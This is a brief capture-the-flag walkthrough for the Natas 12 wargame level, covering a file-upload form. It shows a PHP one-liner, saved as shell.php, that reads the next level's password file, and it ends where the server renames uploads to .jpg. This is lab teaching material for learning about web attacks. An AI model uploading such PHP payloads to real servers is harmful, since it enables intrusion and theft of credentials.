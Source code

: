 # 🔐 Natas 12 Walkthrough 

You'll see an upload form that allows uploading an image file. It mentions that is check the file type.

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input name="uploadedfile" type="file" />
  <input type="submit" value="Upload File" />
</form>
```
Let's test it.

## Upload a PHP shell into the server

Try to upload a .php file disguised as an image. We can try to just get the password like:

```php
<?php echo file_get_contents('/etc/natas_webpass/natas13'); ?>
```

Save it as `shell.php` for example. And upload it to the server. You can see that your file will be changed to <randstring>.jpg we can't have that since jpg doesnt contain any of our script. 

